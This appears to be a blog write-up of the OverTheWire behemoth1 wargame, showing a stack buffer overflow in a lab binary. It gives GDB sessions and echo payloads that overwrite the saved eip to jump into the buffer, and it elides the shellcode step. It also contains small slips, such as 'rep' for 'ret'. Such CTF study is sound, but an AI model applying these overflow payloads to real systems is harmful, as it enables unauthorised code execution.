 ```yaml
---
layout: post
title: How to solve behemoth1 task or stack overflow showcase
---
```


The tasks have been taken from [overthewire.org](http://overthewire.org/wargames/behemoth/).

Login into the warbox:

```
    $ ssh behemoth1@behemoth.labs.overthewire.org -p 2221
    with the password you've obtained in `behemoth0`
```

Run and try to enter strings of various length:

```
    $ /behemoth/behemoth1
```

It's easy to find out that entering something longer than 75
symbols crashes the program. Congratulations, this is the stack
overflow problem.

`012345678901234567890123456789012345678901234567890123456789012345678901234`

Let's take a look at the file. It has `suid` bit as most of
the problems from the suite. `readelf` or `objdump` would not
show you anything interesting.

```
    $ cat /behemoth/behemoth0
```

Ok, go for GDB with:

```
    $ gdb -ix /usr/local/gdbinit/gdbinit /behemoth/behemoth1
    gdb$ func
    gdb$ dis main
```

You will see disassembled `main` listing. What is interesting
here, is that the function is very short and contains nothing but
immediate `puts` call responding with a failed authentication
right after the `gets` request for the password.

There is no password here. No password check. You have to exploit
stack overflow to gain access to the next flag. So here you go.

Set the breakpoint at last `leave` instruction, and calculate
size of the message for `ebp` and `eip` values on the stack.

```
    gdb$ b *0x0804847f
    gdb$ run < <(echo -ne "123123456789012345678901234567890123456789012345678901234567890123467890123\x00\x00\x00\x00\x00\x00\x00\x00")
    Breakpoint 1, 0x0804847f in main ()
    gdb$ hexdump $esp 7
```

`leave` instruction does a simple thing. It restores stack
pointer from the stack base and pops out `ebp` from the frame.
Next coming `rep` will pop `eip` from the stack top. Thus, you
have the following instructions:

```
    # https://c9x.me/x86/html/file_module_x86_id_154.html
    $esp = $ebp
    $ebp = pop()
    $eip = pop()

    # mem map
    00 00 00 00 00 00 00 00 | XX XX XX XX YY YY YY YY
                              ^ ebp register value
                                          ^ eip register value
```

So `eip` starts at

```
    gdb$ p $ebp+0x4
    $2 = (void *) 0xffffd5bc
```

Beginning of the buffer may be calculated tracing the instructions
in the `main` or right from the hex dump:

```
    gdb$ p $ebp-0x60-0x8+0x1d
    $1 = (void *) 0xffffd56d
```

Rerun program with `eip` replaced for the beginning of the buffer.

```
    gdb$ run < <(echo -ne "123123456789012345678901234567890123456789012345678901234567890123467890123\x00\x00\x00\x00\x6d\xd5\xff\xff")
    Breakpoint 1, 0x0804847f in main ()
    gdb$ n 2
    0xffffd56d in ?? ()
```

So, it works. We've got our process jumped right into the buffer.

Now, we need to load the input with a program to replace current
process with a `/bin/sh`.

...

Use obtained password to enter new a `/bin/sh`
shell and get a flag for the next warbox.

Links
===

- [Objdump - How to output text (eg ASCII strings) alongside assembly code?](https://reverseengineering.stackexchange.com/questions/14633/objdump-how-to-output-text-eg-ascii-strings-alongside-assembly-code)
- [convert a hex string to binary and send with netcat](https://unix.stackexchange.com/questions/82561/convert-a-hex-string-to-binary-and-send-with-netcat)
- [gdb - debugging with pipe](https://stackoverflow.com/questions/1456253/gdb-debugging-with-pipe?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa)
- [Linux/x64 - execve(/bin/sh) Shellcode (25 bytes)](https://www.exploit-db.com/exploits/39624/)
- [C shellcode explanation](https://security.stackexchange.com/questions/119959/c-shellcode-explanation/119978)
